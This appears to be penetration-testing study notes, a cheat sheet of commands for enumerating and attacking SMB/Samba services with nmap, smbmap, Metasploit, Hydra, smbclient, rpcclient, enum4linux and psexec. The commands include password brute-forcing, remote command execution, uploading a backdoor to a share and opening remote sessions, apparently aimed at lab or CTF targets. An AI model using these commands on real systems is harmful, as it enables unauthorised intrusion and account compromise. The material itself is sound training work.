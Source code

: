 ## Nmap:
	- `nmap -sU --top-ports 25` : port 137, 138 are udp smb ports. check if open.

### Nmap enum scripts
	- `nmap -sU --top-ports 25 <ip>`
	- ![Alt](./images/nmap-01.png)
	- smb-protocols : list supported protocols
		- if v1 is enabled - EternalBlue exploit?
	- smb-security-mode : guest account enabled?
	- smb-os-discovery.nse : NetBIOS computer name and OS
	- smb-enum-sessions : enum logged in users
	- smb-enum-sessions --script-args smbusername=<user>,smbpassword=<pass>
	- smb-enum-users.nse : list all users that exist on samba version
	- ![Alt](./images/nmap-02-enumusers.png)
	- smb-enum-shares : enum shares as guest
	- smb-enum-shares,smb-ls --script-args smbusername=<user>,smbpassword=<pass> : Enumerating all the shared folders and drives then running the ls command on all the shared folders.
	- smb-enum-shares --script-args smbusername=<user>,smbpassword=<pass>
		- if IPC$ share had RW perms - lets anon users enum shares, accounts etc
	- smb-enum-users --script-args smbusername=<user>,smbpassword=<pass>: enum user acc on target sys
	- smb-server-stats --script-args smbusername=<user>,smbpassword=<pass>
	- smb-enum-domains --script-args smbusername=<user>,smbpassword=<pass>
	- smb-enum-groups --script-args smbusername=<user>,smbpassword=<pass>
	- smb-enum-services --script-args smbusername=<user>,smbpassword=<pass>

## SMBMAP: 
	- Allows users to enumerate samba share
	- Allows file upload/download/delete
	- Permission enumeration (writable share, meet Metasploit)
	- `smbmap -H <ip> -u guest -p "" -d <domain>` 
	- ![Alt](./images/smbmap-01.png)
	- `smbmap -H <ip> -u guest -p "" -d .`
	- `smbmap -H <ip> -u <user> -p <pass> -x 'ipconfig'` : execute command on remote host
	- `smbmap -H <ip> -u <user> -p <pass> -L` : list all drives (C: or D:)
	- ![Alt](./images/smbmap-02.png)  ￼ 
	- `smbmap -H <ip> -u <user> -p <pass> -r 'C$'` : list contents of C:\
	- ![Alt](./images/smbmap-03.png) 
	- `smbmap -H <ip> -u <user> -p <pass> --upload '/root/backdoor' 'C$\backdoor'`
	- ![Alt](./images/smbmap-04.png) 
	- `smbmap -H <ip> -u <user> -p <pass> --download 'C$\flag.txt'`
	- ![Alt](./images/smbmap-05.png) 

MSF:
	- auxiliary/scanner/smb/smb_version - exact version of smb
	- auxiliary/scanner/smb/smb2 - smb2 protocol supported?
	- auxiliary/scanner/smb/smb_enumusers
	- auxiliary/scanner/smb/smb_enumshares
	- auxiliary/scanner/smb/pipe_auditor : determine what named pipes are accessible over SMB  (req creds)
	- auxiliary/scanner/smb/smb_login
	- auxiliary/scanner/smb/smb_ms17_010 - eternalblue vuln tester
	- exploit/windows/smb/psexec

Hydra:
	- `hydra -l <user> -P <pass_wordlist> 192.212.251.3 smb`
	
Nmblookup:
	- `nmblookup -A <ip>`
	- ![Alt](./images/nmblookup-01.png) 
	￼

SMBclient:
	- `smbclient -L <ip> -N` : list sharenames and domains with no pass with anonymous connection.
	- `smbclient -L <ip> -U <user>` : authenticate as a user with legit creds
	- `smbclient //<ip>/public -N`
	- `smbclient //<ip>/public -U <user> 
			smb> ls
			smb> get flag`

RPCclient:
	- `rpcclient -U "" -N <ip>` : check anonymous login allowed - if no errors
	- rpcclient $>
		- srvinfo : os version of samba server
		- enumdomgroups : enum domain groups
		- enumdomusers : enum domain users
		- lookupnames admin : get SID of user "admin"

Enum4linux:
	- `enum4linux -o <ip>` : get os version
	- `enum4linux -U <ip>` : enum users (use -u <user> -p <pass> for auth enum)
	- `enum4linux -S <ip>` : enum shares
	- `enum4linux -G <ip>` : enum domain groups
	- `enum4linux -i <ip>` : get printer info
	- ![Alt](./images/enum4linux-01.png) 
	- `enum4linux -r -u "admin" -p "password" <ip>` : enum users via RID cycling. S-1-22-1-1003 etc.

PSExec (Authenticated):
	- cp /usr/share/doc/python3-impacket/examples/psexec.py /root/Desktop
	- chmod +x psexec.py
	- python3 psexec.py Administrator@ip
	- this will provide remote session

References:
	1. Samba (https://www.samba.org/)
	2. smbclient (https://www.samba.org/samba/docs/current/man-html/smbclient.1.html)
	3. rpcclient (https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html)
	4. nmblookup (https://www.samba.org/samba/docs/current/man-html/nmblookup.1.html)
	5. enum4Linux (https://tools.kali.org/information-gathering/enum4linux)
	6. THC Hydra (https://tools.kali.org/password-attacks/hydra)
	7. smbmap (https://tools.kali.org/information-gathering/smbmap)
	8. Metasploit Module: SMB Session Pipe Auditor (https://www.rapid7.com/db/modules/auxiliary/scanner/smb/pipe_auditor)